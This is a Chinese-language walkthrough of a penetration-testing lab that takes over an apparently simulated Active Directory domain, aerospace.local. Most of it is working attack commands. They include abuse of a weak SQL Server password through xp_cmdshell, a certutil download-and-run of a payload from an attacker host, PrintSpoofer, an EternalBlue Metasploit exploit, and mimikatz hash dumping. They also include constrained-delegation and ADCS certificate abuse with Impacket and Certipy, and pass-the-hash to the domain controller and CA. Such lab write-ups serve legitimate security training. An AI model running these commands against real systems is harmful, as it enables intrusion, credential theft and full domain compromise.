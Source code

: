 ## Web01

部署好全部虚拟机后，首先扫描本地存活主机，以发现 Web01 的地址：

```
./fscan.exe -np -h 192.168.162.1/24
# 因为 Web01 开了防火墙，所以需要指定 -np 禁止 ping
```

![image-20240222121702332](https://img.dkdun.cn/v1/2024/2/34784a98fe1380bd.webp)

先访问 80 端口：

![image-20240222115713142](https://img.dkdun.cn/v1/2024/2/f0b867f46d6da9e9.webp)

1433 端口上存在 SQL Server 弱口令，用sa/123456即可成功登录。然后通过 xp_cmdshell 执行系统命令即可：

```sql
/* 判断当前是否为 DBA 权限，返回 1 则可以提权 */
SELECT IS_SRVROLEMEMBER('sysadmin');

/* 查看是否存在 xp_cmdshell，返回 1 则存在 */
SELECT COUNT(*) FROM master.dbo.sysobjects WHERE xtype='x' AND name='xp_cmdshell'

/* 开启 xp_cmdshell */
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

/* 执行系统命令 */
EXEC master.dbo.xp_cmdshell 'cd C:\Users\Public & certutil -urlcache -split -f http://192.168.162.130:8080/she1l.exe';

EXEC master.dbo.xp_cmdshell 'C:\Users\Public\she1l.exe'
```

成功上线 Web01 这台服务器：

![image-20240222121422282](https://img.dkdun.cn/v1/2024/2/737e22ed73e35118.webp)

由于此时是服务账户权限，我们可以通过 Windows 令牌操纵技术获取 System 权限。上传 PrintSpoofer.exe，然后执行以下命令即可提升至系统权限：

```
PrintSpoofer.exe -i -c cmd
```

![image-20240222122220971](https://img.dkdun.cn/v1/2024/2/9d6487497578eee0.webp)

## 内网存活扫描

我们发现一个内网网段 172.22.10.1/24：

![image-20240222122300181](https://img.dkdun.cn/v1/2024/2/f7d8aaba9193dcf3.webp)

上传 fscan 扫描内网：

```
C:\Users\Public\fscan.exe -h 172.22.10.1/
```

![image-20240222122441289](https://img.dkdun.cn/v1/2024/2/797428d3536a1db1.webp)

![image-20240222122451598](https://img.dkdun.cn/v1/2024/2/1c7b664553211167.webp)

发现内网存活的主机，并且存在域环境，域名为 aerospace.local，域控制器为 DC01.aerospace.local，IP 为 172.22.10.11。

此外，还存在 ADCS，证书颁发机构为 CA.aerospace.local。

## WIN-PC8086

WIN-PC8086 这台域成员机器存在 MS17_010 漏洞，ip为 172.22.10.36，使用 msf 挂上代理，用 bind_tcp 类型的 payload 直接打：

```
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhosts 172.22.10.36
set lport 4444
run
```

成功获取 SYSTEM 权限：

![image-20240222122857732](https://img.dkdun.cn/v1/2024/2/dad938166543eb9f.webp)

由于这台机器位于域内，因此我们可以用他的机器账户收集域内信息。加载 kiwi 模块，抓取 WIN-PC8086 计算机账户的哈希值：

```
load kiwi
kiwi_cmd "sekurlsa::logonpasswords"
```

![image-20240222124817297](https://img.dkdun.cn/v1/2024/2/4624b26a0f7507d5.webp)

然后，使用 [Impacket](https://github.com/fortra/impacket) 套件中的 findDelegation.py 枚举域内委派关系：

```bash
python3 findDelegation.py aerospace.local/WIN-PC8086\$ -hashes :680f2285800a0da67b4d6aa443ed0ab2 -dc-ip 172.22.10.11
```

![image-20240222125323210](https://img.dkdun.cn/v1/2024/2/672be978d5b0917f.webp)

发现当前的 WIN-PC8086 机器对域内 WIN-PC8098 这台机器的 HOST 和 CIFS 服务具有约束委派权限，因此可以通过约束委派获取 WIN-PC8098 的权限。

## WIN-PC8098

我们使用 [Impacket](https://github.com/fortra/impacket) 套件中的 getST.py 脚本进行约束委派攻击。执行以下命令，使用 WIN-PC8086 账户代表域管理员用户 Administrator 获取 WIN-PC8098 机器上 CIFS 服务的票据：

```bash
python3 getST.py aerospace.local/WIN-PC8086\$ -hashes :680f2285800a0da67b4d6aa443ed0ab2 -spn CIFS/WIN-PC8098.aerospace.local -impersonate Administrator -dc-ip 172.22.10.11
```

![image-20240222125738235](https://img.dkdun.cn/v1/2024/2/8a291b2702e876ba.webp)

成功申请到票据后，通过设置环境变量 `KRB5CCNAME` 来使用该票据，并通过 wmiexec.py 获取 WIN-PC8098 机器的最高权限：

```bash
export KRB5CCNAME='Administrator@CIFS_WIN-PC8098.aerospace.local@AEROSPACE.LOCAL.ccache'
python3 wmiexec.py -k aerospace.local/Administrator@WIN-PC8098.aerospace.local -no-pass -dc-ip 172.22.10.11
```

![image-20240222130846243](https://img.dkdun.cn/v1/2024/2/9aa8a6bb936876cc.webp)

在 WIN-PC8098 机器上发现了一个域用户 liuyuhua 的进程：

![image-20240222132551554](https://img.dkdun.cn/v1/2024/2/17b3a946d05fde92.webp)

然后考虑上传 mimikatz 抓取该用户的哈希值。由于该机器开启了 Windows defender，可以考虑新建一个管理员用户登录到远程桌面，然后将 Windows defender 关闭后在运行 mimikatz。

抓取到 liuyuhua 的哈希值为 :***\**\***：

![、](https://img.dkdun.cn/v1/2024/2/d5fd97f75d2f8a51.webp)

## DC01

由于环境中存在 ADCS 服务，因此考虑通过 [Certify](https://github.com/GhostPack/Certify) 枚举错误配置。还是在 WIN-PC8098 机器上，，然后执行以下命令：

```
Certify.exe find /vulnerable
```

![image-20240222134937394](https://img.dkdun.cn/v1/2024/2/110f1f141cdd15ee.webp)

发现一个名为 AeroUser 的证书模板，开启了 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 标志，并且所有的域用户账户都有注册权限。那么我们可以以域内任何用户的身份请求证书，包括域管理员用户或域控制器的机器账户，并使用该证书获取合法用户的 TGT，一次实现域权限提升。

执行以下命令，通过 [Certipy](https://github.com/ly4k/Certipy) 工具为域管理员用户申请证书：

```bash
certipy-ad req -username liuyuhua@aerospace.local -hashes :******** -ca aerospace-CA-CA -target CA.aerospace.local -template AeroUser -upn Administrator@aerospace.local -dns DC01.aerospace.local -debug
```

![image-20240222140815015](https://img.dkdun.cn/v1/2024/2/9722474dc7c4a8d2.webp)

申请到了名为 administrator_dc01.pfx 的证书，然后执行以下命令，通过该证书进行 kerberos 身份验证，可以成功拿到域管理员用户的 TGT 票据和 NTLM 哈希：

```bash
certipy-ad auth -pfx administrator_dc01.pfx -dc-ip 172.22.10.11
```

![image-20240222141014583](https://img.dkdun.cn/v1/2024/2/e7b5591edbd69baa.webp)

可以看到，已经成功拿到了域管理员的 NTLM 哈希，接下来直接哈希传递即可获取域控制器权限了：

```BASH
python3 wmiexec.py aerospace.local/Administrator@dc01.aerospace.local -hashes ********:******** -dc-ip 172.22.10.11
```

![image-20240222141221545](https://img.dkdun.cn/v1/2024/2/946c9b079feee60d.webp)

## CA

同样是哈希传递，可以获取 CA 的权限：

```
python3 wmiexec.py aerospace.local/Administrator@ca.aerospace.local -hashes ********:******** -dc-ip 172.22.10.11
```

![image-20240222141327594](https://img.dkdun.cn/v1/2024/2/e20b7ddcd5f80727.webp)
